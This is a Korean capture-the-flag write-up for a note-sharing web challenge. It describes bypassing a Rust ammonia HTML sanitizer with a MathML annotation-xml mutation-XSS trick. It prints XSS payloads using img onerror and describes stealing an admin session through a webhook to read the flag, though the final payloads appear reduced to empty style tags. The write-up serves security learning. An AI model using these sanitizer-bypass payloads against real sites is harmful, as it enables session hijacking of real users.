




# write-up    
    
### src/main.rs    
    
```rust
async fn upload_note(
    mut multipart: Multipart,
) -> (StatusCode, Result<HeaderMap<HeaderValue>, &'static str>) {

    /* SKIP */

    let safe = ammonia::Builder::new()
        .add_tags(TAGS)
        .add_tags(&["style"])
        .rm_clean_content_tags(&["style"])
        /*
            Thank god we don't have any more XSS vulnerabilities now 🙏
        */
        // .add_generic_attribute_prefixes(&["hx-"])
        .clean(&body)
        .to_string();

    /* SKIP */
}
```    
awesomenotes-1과 달리 `hx-`를 사용할 수 없게 되고, `math_tags.rs`의 `TAGS` 배열에 존재하는 태그들과 `style` 태그를 사용할 수 있도록 변경되었다. 또한, `<style>` 태그 안에 존재하는 내용은 필터링 하지 않도록 하고 있다.
    
```html
<h1>Example note</h1>
<p>Don't forget about that exam next monday!</p>
<math xmlns='http://www.w3.org/1998/Math/MathML'>
<mrow>
  <mi>E</mi>
  <mo>=</mo>
  <msup>
    <mi>mc</mi>
    <mn>2</mn>
  </msup>
</mrow>
</math>
<br>
<br>


<style>
    .note-body img {
        border-radius: 20px;
        box-shadow: 0 0 40px #000000a0;
        object-fit: contain;
        width: 500px;
    }
</style>
```    
`/create` 경로에 가면 `<math>`, ``, `<style>` 등을 사용한 HTML 코드가 적혀져 있는 것을 볼 수 있다.   
    
위 태그들을 활용하여 XSS 공격을 수행하는 것 같아 `MathML XSS` 사례들을 찾아보았다.     

```html
<math><annotation-xml encoding="text/html"><style>&lt;/style&gt;&lt;img src=x onerror=alert(1)&gt;</style></math>

<math><annotation-xml encoding="text/html"><script>&lt;/script&gt;&lt;img src=x onerror=alert(1)&gt;</script></math>
```
https://bugs.chromium.org/p/chromium/issues/detail?id=805924         
    
MathML XSS 취약점 사례가 존재했고, `<annotation-xml>`에 대해 찾아보았다.

https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/

***math annotation-xml: if it has an attribute called encoding whose value is equal to either text/html or application/xhtml+xml***   
    
math annotation-xml 태그를 사용하여 text/html 인코딩 방식을 사용하면 annotation-xml 태그 안에 content가 math namespace가 아닌 html namespace로 인식하게 되는 것이다.   
     
즉, html namespace로 인식된다는 것은 html 코드가 text가 아닌 DOM에 추가된다는 것을 의미한다.   
     
```html
<math><annotation-xml encoding="text/html"><style></style></annotation-xml></math>
```  

Payload를 위와 같이 작성해서 실행시켜보니 아래와 같이 `alert(1)`가 잘 실행되었다.     
    
    

세션 값을 받아오기 위해 Webhook을 사용하여 Payload를 작성해주었다.   

```html
<math><annotation-xml encoding="text/html"><style></style></annotation-xml></math>
```
    
노트 작성 후, Report 해주면 세션 값이 잘 받아지는 것을 볼 수 있다.   

### Admin Session 
      
    
### Session Registration in Cookie    
   
         
받은 세션 값을 쿠키에 추가해주고 `/note/flag`에 접속하면 FLAG 획득!!!

   
